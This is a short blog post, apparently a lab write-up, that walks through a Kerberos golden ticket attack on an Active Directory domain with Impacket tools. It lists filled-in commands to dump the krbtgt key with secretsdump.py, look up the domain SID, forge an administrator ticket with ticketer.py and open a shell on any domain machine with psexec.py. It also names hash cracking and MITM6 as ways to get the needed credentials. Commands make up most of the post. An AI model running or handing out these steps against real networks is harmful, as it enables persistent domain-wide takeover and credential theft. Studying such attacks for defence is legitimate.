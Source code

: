 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

<details>
<summary>Use secretsdump.py to obtain the aes256 key for the krbtgt account</summary>

```
  secretsdump.py <domain>/<user>:<password> <dc-ip>
```

```
  secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
```

</details>

<details>
<summary>Use lookupsid.py to find the domain SID</summary>

```
  Lookupsid.py <domain>/<user>:<password> <dc-ip>
```

```
  Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
```

</details>

<details>
<summary>Use ticketer.py to create TGT</summary>

```
  ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username
```

```
  ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator
```

</details>

<details>
<summary>Export KRB5CCNAME to created ticket location</summary>

```
  export KRB5CCNAME=/home/kali/Documents/administrator.ccache
```

</details>

<details>
<summary>Use psexec to obtain a shell on any machine in the domain</summary>

```
  psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k
```

```
  psexec.py home.local/administrator@TargetPC.home.local -no-pass -k
```

</details>
